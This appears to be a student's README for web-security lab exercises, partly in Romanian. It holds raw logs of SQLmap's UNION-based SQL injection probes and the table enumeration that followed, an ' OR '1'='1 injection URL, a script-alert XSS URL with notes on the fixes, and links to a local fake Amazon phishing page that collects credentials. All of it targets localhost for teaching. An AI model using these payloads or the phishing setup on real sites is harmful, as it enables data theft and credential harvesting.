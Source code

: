 Log file analizer usage:

```
# Show 4xx errors
python log_analyzer.py 1

# Show URL statistics
python log_analyzer.py 2

# Watch logs in real-time
python log_analyzer.py 3

# Specify a different log directory
python log_analyzer.py 2 --log-dir /path/to/logs
```

Lab 4:
The logs are showing us that SQLmap is testing for SQL injection on GET parameter 'nume'. It tried different attacks and it successfully extracted the users table. 


```
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LENGTH%28SYSDATE%29%3DLENGTH%28SYSDATE%29%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%2CNULL%20FROM%20DUAL--%20rqBU ::1 200 info: Searching for: Ion' UNION ALL SELECT CHR(113)||CHR(118)||CHR(107)||CHR(112)||CHR(113)||(SELECT (CASE WHEN (LENGTH(SYSDATE)=LENGTH(SYSDATE)) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(112)||CHR(120)||CHR(122)||CHR(113),NULL FROM DUAL-- rqBU
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LENGTH%28SYSDATE%29%3DLENGTH%28SYSDATE%29%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%2CNULL%20FROM%20DUAL--%20rqBU ::1 200 error: Redirecting to login page: Database error: SQLITE_ERROR: no such table: DUAL
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28CONVERT_TO%28%27QXrQ%27%2CQUOTE_IDENT%28NULL%29%29%20IS%20NULL%29%20THEN%20%28CHR%2849%29%29%20ELSE%20%28CHR%2848%29%29%20END%29%29%7C%7C%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%29%2CNULL--%20IARt ::1 200 info: Searching for: Ion' UNION ALL SELECT (CHR(113)||CHR(118)||CHR(107)||CHR(112)||CHR(113))||(SELECT (CASE WHEN (CONVERT_TO('QXrQ',QUOTE_IDENT(NULL)) IS NULL) THEN (CHR(49)) ELSE (CHR(48)) END))||(CHR(113)||CHR(112)||CHR(120)||CHR(122)||CHR(113)),NULL-- IARt
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28CONVERT_TO%28%27QXrQ%27%2CQUOTE_IDENT%28NULL%29%29%20IS%20NULL%29%20THEN%20%28CHR%2849%29%29%20ELSE%20%28CHR%2848%29%29%20END%29%29%7C%7C%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%29%2CNULL--%20IARt ::1 200
 error: Redirecting to login page: Database error: SQLITE_ERROR: no such function: CHR
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28107%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%28UNICODE%28SQUARE%28NULL%29%29%20IS%20NULL%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL--%20HkCf ::1 200 info: Searching for: Ion' UNION ALL SELECT CHAR(113)+CHAR(118)+CHAR(107)+CHAR(112)+CHAR(113)+(CASE WHEN (UNICODE(SQUARE(NULL)) IS NULL) THEN CHAR(49) ELSE CHAR(48) END)+CHAR(113)+CHAR(112)+CHAR(120)+CHAR(122)+CHAR(113),NULL-- HkCf
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28107%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%28UNICODE%28SQUARE%28NULL%29%29%20IS%20NULL%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL--%20HkCf ::1 200 error: Redirecting to login page: Database error: SQLITE_ERROR: no such function: SQUARE
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%2C118%2C107%2C112%2C113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LAST_INSERT_ROWID%28%29%3DLAST_INSERT_ROWID%28%29%29%20THEN%201%20ELSE%200%20END%29%29%7C%7CCHAR%28113%2C112%2C120%2C122%2C113%29%2CNULL--%20ksZP ::1 200 info: Searching for: Ion' UNION ALL SELECT CHAR(113,118,107,112,113)||(SELECT (CASE WHEN (LAST_INSERT_ROWID()=LAST_INSERT_ROWID()) THEN 1 ELSE 0 END))||CHAR(113,112,120,122,113),NULL-- ksZP
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%2C118%2C107%2C112%2C113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LAST_INSERT_ROWID%28%29%3DLAST_INSERT_ROWID%28%29%29%20THEN%201%20ELSE%200%20END%29%29%7C%7CCHAR%28113%2C112%2C120%2C122%2C113%29%2CNULL--%20ksZP ::1 200 info: Rendering cauta page
```

```
[10:01:01] [INFO] the back-end DBMS is SQLite
[10:01:01] [INFO] fetching banner
web application technology: Express
back-end DBMS: SQLite
banner: '3.44.2'
[10:01:01] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+-----------------+
| sqlite_sequence |
| users           |
+-----------------+

```
SQLite integration tutorial: https://www.sqlitetutorial.net/sqlite-nodejs/


Lab5:
Possible problems and how to solve it:
```
Access to fetch at 'http://localhost:5000/api/data' from origin 'http://localhost:4567' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled
```

Lab6:
URL vulnerabil:
```
http://localhost:4567/cauta?q=' OR '1'='1
```
In acest caz, query-ul devine ```SELECT * FROM users WHERE name = '' OR '1'='1' ``` si ```OR '1'='1'``` este mereu adevarat, deci ne vor fi returnati toti utilizatorii din tabelul users. Pentru a rezolva problema SQL injection, trebuie sa sanitizam datele, de exemplu prin utilizarea Sequelize. Aceasta sanitizare se face si automat cu ajutorul sqlite.

URL vulnerabil:
```
http://localhost:4567/cauta?q=<script type="text/javascript">alert("vulnerable");</script>
```
Acsta va realiza un pop up de tip alerta in care se va mentiona ca siteul este vulnerabil. Pentru a preveni acest tip de atac trebuie sa utilizam ```<%= %>``` în loc de ```<%- %>```. De asemenea, ar trebui sa sanitizam datele primite din query.


You need to enable CORS on the server where the API is hosted (http://127.0.0.1:5000)

Lab10:
Link to see the phishing email: http://localhost:5000/api/email
Link to the fake amazon phishing page: http://localhost:5000/api/phishing
Link to view the credentials sent to the server: http://localhost:5000/api/view-credentials

Lab11:
You can use this command to use the openssl in Windows more easily
```
"C:\Program Files\Git\usr\bin\openssl.exe" req -nodes -new -x509 -keyout server.key -out server.cert -days 365
```